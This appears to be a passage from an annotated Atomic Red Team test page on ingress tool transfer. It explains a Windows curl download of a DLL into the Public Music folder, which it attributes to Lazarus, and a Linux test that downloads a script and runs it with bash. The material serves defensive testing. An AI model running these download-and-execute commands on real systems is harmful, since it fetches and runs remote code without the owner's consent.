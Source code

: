 **Command Explanation:**
```cmd
curl -k https://github.com/redcanaryco/atomic-red-team/raw/058b5c2423c4a6e9e226f4e5ffa1a6fd9bb1a90e/atomics/T1218.010/bin/AllTheThingsx64.dll -o c:\users\public\music\allthethingsx64.dll
```
- **curl**: Cross-platform command-line tool for transferring data
- **-k**: Ignores SSL certificate errors (bypasses certificate validation)
- **URL**: Source file to download
- **-o**: Specifies the output filename
- **Public music folder**: Common directory Lazarus uses to avoid suspicion

Lazarus frequently uses curl for its simplicity and cross-platform compatibility, often targeting unconventional directories.

#### Dependencies: Run with `powershell`!
##### Description: curl must be available
##### Check Prereq Commands:
```powershell
if (Get-Command curl -ErrorAction SilentlyContinue) { exit 0 } else { exit 1 }
```

<br/>

## Atomic Test #27 - Linux Download File and Run
Uses curl to download and execute on Linux. Lazarus targets Linux environments using this method.

**Supported Platforms:** Linux

**auto_generated_guid:** 3f4e5d6c-7a8b-9c0d-1e2f-3a4b5c6d7e8f

#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url | URL to download from | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1105/src/atomic.sh |

#### Attack Commands: Run with `sh`! 
```sh
curl -sO #{url}; chmod +x atomic.sh | bash atomic.sh
```

```mermaid
flowchart TD
    Start[Test #27: Linux curl Download & Execute] --> Execute["Execute: curl -sO https://raw.githubusercontent.com/.../atomic.sh<br>chmod +x atomic.sh | bash atomic.sh"]
    
    Execute --> Breakdown[Command Breakdown]
    
    subgraph Breakdown [curl and execution]
        C1[curl] --> P1[-s: Silent mode]
        C1 --> P2[-O: Save with remote name]
        C1 --> P3[URL: Download source]
        C1 --> S1[chmod +x: Make executable]
        C1 --> S2[| bash: Execute with bash]
    end
    
    Breakdown --> SilentDownload[Downloads file silently]
    SilentDownload --> MakeExec[Makes file executable]
    MakeExec --> ExecuteFile[Executes script]
    ExecuteFile --> Success[Execution Complete]
```
